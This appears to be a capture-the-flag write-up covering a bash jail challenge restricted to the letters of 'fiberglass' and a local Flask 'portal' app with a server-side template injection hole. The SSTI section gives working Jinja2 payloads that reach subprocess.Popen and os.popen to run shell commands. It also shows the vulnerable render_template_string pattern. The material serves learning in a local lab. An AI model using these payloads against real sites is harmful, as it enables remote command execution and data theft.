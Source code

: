 # Bash Jail Challenges

## Fiberglass

### 1. Start Docker Container

```bash
docker compose up --build -d
```

### 2. Open Firefox and navigate to:

```
http://127.0.0.1
```

### 3. Understanding the Regular Expressions

```php
preg_replace('/[^a-z]/', '', $input);
```

* `[^a-z]`: Matches any character that is **not** a lowercase letter a–z.
* Replaces all non-lowercase-letter characters with an empty string.

```php
preg_match('/^[fiberglass]*$/', $lettersOnly);
```

* `^`: Start of the string
* `[fiberglass]*`: Zero or more characters from the set `f, i, b, e, r, g, l, a, s`
* `$`: End of the string
* Checks whether the entire string contains only letters from the word **“fiberglass”**.

```php
preg_replace('/\s+/', ' ', $command);
```

* `\s`: Matches any whitespace character
* `+`: One or more repetitions
* Replaces multiple consecutive whitespace characters with a single space.

### 4. Solution

The goal is to find a shell command that outputs the content of the file `flag` to stdout.

* The command can only contain letters from the set `[fiberglass]`.
  * The function `isValidInput()` filters out all characters not in this set.
  * Other characters (e.g., numbers) are ignored during validation.
* The command must not be on the `blacklist`.

Use the [Linux man pages](https://man7.org/linux/man-pages/index.html) to:
* Search for commands or programs that output to `standard output`.
* Look for utilities that match the allowed character set

```
base64 flag
```

```bash
echo "Q1RGe3JhY2VfY29uZGl0aW9uX3N5bWxpbmt9Cg==" | base64 -d
```

---

# Python Jail Challenges

## Useful Links

* [Python Built-in Functions](https://docs.python.org/3/library/functions.html)
* [KitCTF – Python Jails](https://kitctf.de/learning/python-jails)
* [Escaping Python Jails – Blog by anee.me](https://anee.me/escaping-python-jails-849c65cf306e)
* [Python Jail Cheatsheet– shirajuki](https://shirajuki.js.org/blog/pyjail-cheatsheet)
* [Cobalt SSTI Overview](https://www.cobalt.io/vulnerability-wiki/v5-validation-sanitization/ssti)
* [Flask Jinja2 SSTI Cheatsheet – P=NP Team](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

## portal

### 1. Start Webserver

```bash
python3 -m venv venv              # Create virtual environment
source venv/bin/activate          # Activate venv
pip install -r requirements.txt   # Install dependencies
python3 app.py                    # Start Flask app
# deactivate                      # Deactivate venv
```

### 2. Open Firefox and navigate to:

```
http://127.0.0.1:5000
```

### 3. Potential Vulnerabilities in `app.py`

* The `username` is rendered unescaped directly into the HTML template:

  ```python
  name = request.form['user']
  template = ''' ... %s ... ''' % name
  return render_template_string(template)
  ```

* Only the `Username` field is rendered into the page, the `Password` field is irrelevant.

### 4. Vulnerability Testing

#### Cross-Site Scripting (XSS)

Example:

```html
<script>alert('XSS')</script>
```

* ❌ Not exploitable here, since `name` is rendered inside an HTML comment (`<!-- ... -->`).

#### Server-Side Template Injection (SSTI)

* Flask uses Jinja2 as its templating engine.
* Test with `{{ 7*6 }}` if `42` appears, Jinja2 is executing the input.
* Page source shows `42`, confirming SSTI.

### 5. Exploitation

Use Python object inheritance and the Jinja2 rendering engine to access built-in classes like `subprocess.Popen` to execute system commands.

* `{{ ''.__class__ | safe }}` returns the class of an empty string: `<class 'str'>`
* `{{ ''.__class__.__mro__ | safe }}` returns the Method Resolution Order (MRO), which defines the inheritance hierarchy: `(<class 'str'>, <class 'object'>)`
* `{{ ''.__class__.__mro__[1] | safe }}` accesses `<class 'object'>`, the root of all Python classes.
* `{{ ''.__class__.__mro__[1].__subclasses__() | safe }}` returns a list of all subclasses of `object`, including.

Loop over all subclasses to find the index of `subprocess.Popen`

```
{% for cls in ''.__class__.__mro__[1].__subclasses__() %}
  {% if 'Popen' in cls.__name__ %}
    {{ loop.index0 }} - {{ cls | safe }}
  {% endif %}
{% endfor %}
```

Once you identify the index here (`405 - <class 'subprocess.Popen'>`), use the following payload:

`{{ ''.__class__.__mro__[1].__subclasses__()[405]('cat flag.txt', shell=True, stdout=-1).communicate()[0].decode() | safe }}`

* `subprocess.Popen(...)` runs a shell command
* `shell=True` enables shell features
* `stdout=-1` captures standard output
* `.communicate()` returns a tuple `(stdout, stderr)`
* `[0].decode()` extracts and decodes stdout to a string

Note:

> Flask with Jinja2 uses HTML escaping by default to prevent XSS.
> Characters like `'`, `<`, and `>` are escaped to `&#39;`, `&lt;`, and `&gt;`.
> Using the `|safe` filter disables escaping and renders raw output.

---

### Alternative SSTI Payload

You can also use the `os` module from Flask’s config object:

`{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}`

* `config.__class__` accesses the class of the `config` object.
* `__init__.__globals__` gives access to the global namespace of the constructor.
* `['os']` accesses the `os` module.
* `.popen('cat flag.txt').read()` executes the shell command and reads the output.

---
